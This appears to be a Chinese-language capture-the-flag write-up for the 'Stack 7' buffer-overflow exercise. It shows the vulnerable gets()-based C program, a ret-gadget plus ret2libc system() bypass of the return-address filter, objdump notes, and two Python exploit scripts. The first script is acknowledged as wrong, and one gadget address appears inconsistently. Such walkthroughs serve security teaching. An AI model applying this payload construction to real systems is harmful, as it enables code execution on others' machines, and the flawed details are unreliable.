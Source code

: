 # Stack 7

## （一） 题目：

```
   \#include &lt;stdlib.h&gt;
```

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

char \*getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xb0000000\) == 0xb0000000\) {

```
  printf\("bzzzt \(%p\)\n", ret\);

  \_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

return strdup\(buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

如图：![](/png/41.png)

思路：

1） 参照stack5 stack6的方法处理 栈溢出

2）调试coredump的方法

不同于stack6，本题限制返回地址不可以是库函数，比如不可是system\(\).这个限制仅仅限制在第一次返回时候，所以意味着，可以利用ROP方法，用一个gadget,后面可以正常跟shellcode. 使用了过滤， 所以不能使用堆栈以及环境变量以及libc库的地址来覆盖返回地址。

![](/png/42.png)

**objdump命令是Linux下的反汇编目标文件或者可执行文件的命令，它还有其他作用，下面以ELF格式可执行文件test为例详细介绍：**

objdump -f test  显示test的文件头信息

objdump -d test  反汇编test中的需要执行指令的那些section

objdump -D test  与-d类似，但反汇编test中的所有section

objdump -h test  显示test的Section Header信息

objdump -x test  显示test的全部Header信息

objdump -s test  除了显示test的全部Header信息，还显示他们对应的十六进制文件代码

输出到txt文件objdump -s test.so&gt;test.txt

同时可以用命nm,strace,gdb.

构造payload:

nop nop + ret + system\(\) +参数

8048617:    c3                       ret

![](/png/43.png)

76个nop+ ret地址+ system地址+ 环境变量地址 （修改应该是80个nop\)

设置环境变量export TTE="whoami"

再利用通用的地址获取代码getaddress.c

![](/png/44.png)

现在所有的要素都有了。

\x90 \*80 + 0x8040617 +0xb7ecffb0 + 0xbfffff47

漏洞利用代码编写如下：

exploit.py

\#!/usr/bin/env python

offset = 76    \(这里不对，应该是80个）

nopsled = "\x90"\*offset

ret = "\x17\x06\x04\x08"

system = "\xb0\xff\xec\xb7"

argv\_addr = "\x47\xff\xff\xbf"

print nopsled + "FAKE" +  ret + system + "FAKE" + argv\_addr

执行后，会出现段错误。后来才发现出错原因是填充字节应该是/80个，少了个字节。80个字节才能正好把ebp覆盖了，后面跟ret地址。

修改代码如下：

\#!/usr/bin/env python

offset = 0x50

cmd = "whoami"

junk = "J" \* \(offset - len\(cmd\)\)

gadg\_ret = "\x17\x86\x04\x08"

ret1= "\xb0\xff\xec\xb7"

ret2 = "\xc0\x60\xec\xb7"

arg1 = "\x46\xff\xff\xbf"

payload = cmd + junk + gadg\_ret + ret1 + ret2 + arg1

print payload

~

![](/png/45.png)



![](/png/46.png)

